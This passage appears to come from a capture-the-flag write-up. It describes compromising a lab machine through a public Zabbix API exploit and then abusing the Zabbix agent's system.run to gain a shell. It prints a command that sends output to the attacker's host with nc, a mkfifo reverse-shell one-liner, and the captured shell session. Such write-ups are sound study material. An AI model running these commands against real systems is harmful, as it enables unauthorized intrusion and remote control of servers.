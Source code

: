 Now I need to update some stuff at the top:

    
    
    ZABIX_ROOT = 'http://10.10.10.108/zabbix'       ### Zabbix IP-address
    url = ZABIX_ROOT + '/api_jsonrpc.php'   ### Don't edit
    
    login = 'zapper'                ### Zabbix login
    password = 'zapper'     ### Zabbix password
    hostid = '10106'        ### Zabbix hostid
    

Now I run it, and have RCE in the Zabbix container:

    
    
    root@kali# python 39937.py 
    [zabbix_cmd]>>:  hostname
    91cae047f48a
    
    [zabbix_cmd]>>:  id
    uid=103(zabbix) gid=104(zabbix) groups=104(zabbix)
    

#### RCE on Zipper

Now I can use the Zabbix agent on Zipper to get RCE. I mentioned in Recon that
I could try to talk to this port directly from Kali, but nothing comes back:

    
    
    root@kali# echo "system.run[hostname | nc 10.10.14.14 443]" | nc 10.10.10.108 10050
    root@kali# 
    

That’s because the agent is filtering out input that comes from anything but
the Zabbix host. But with RCE on the Zabbix host, I can send commands. The
output isn’t sent back, but I can pipe it into nc and send it back to my host:

    
    
    [zabbix_cmd]>>:  echo "system.run[hostname | nc 10.10.14.14 443]" | nc 10.10.10.108 10050
    ZBXD8
    
    
    
    root@kali# nc -lnp 443
    zipper
    

I can pivot that RCE into a shell:

    
    
    [zabbix_cmd]>>:  echo "system.run[rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.14 443 >/tmp/f]" | nc 10.10.10.108 10050
    ZBXD8
    
    
    
    root@kali# nc -lnvp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.108.
    Ncat: Connection from 10.10.10.108:38512.
    /bin/sh: 0: can't access tty; job control turned off
    $ id
    uid=107(zabbix) gid=113(zabbix) groups=113(zabbix)
    